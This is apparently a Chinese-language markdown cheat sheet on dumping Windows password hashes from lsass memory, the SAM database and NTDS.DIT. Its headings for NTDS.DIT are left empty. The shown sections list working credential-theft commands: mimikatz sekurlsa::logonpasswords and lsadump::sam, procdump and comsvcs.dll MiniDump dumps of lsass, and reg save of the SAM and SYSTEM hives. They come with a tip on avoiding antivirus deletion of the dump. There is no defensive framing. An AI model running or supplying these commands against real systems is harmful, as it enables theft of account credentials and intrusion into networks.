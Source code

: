 # 转储HASH
---
* lsass
* SAM
* NTDS.DIT
## lsass
---
lsass进程在内存中保存了登录用户的信息,包括用户hash
### mimikatz
`sekurlsa::logonpasswords`
### Procdump
`procdump -accepteula -ma <processus>/<lsass pid> processus_dump.dmp`
* -ma 转储全部信息,默认只转储进行和句柄信息

指定lsass进程生成的dmp文件可能会被WDF删除,可以指定lsass.exe的pid替代

### comsvcs.dll
需要system权限
comsvcs.dll的MiniDumpW函数用于保存系统crash时的内存信息

`rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full`
## SAM
---
SAM数据库保存了本地所有用户的hash值  
磁盘副本:`%SystemRoot%/system32/config/SAM`  
注册表:`HKLM\SAM\SAM\Domains\Account\Users\`
### mimikatz
`lsadump::sam`
* system权限
### 直接导出
注册表直接导出,hklm\sam为用户加密后的数据,hklm\system为加密的密钥    
`reg save hklm\sam sam.hiv`  
`reg save hklm\system system.hiv`  
lsadump::sam /sam:Sam.hiv /system:System.hiv
* system权限
## NTDS.DIT
---
### Volume Shadow Copy
### NinjaCopy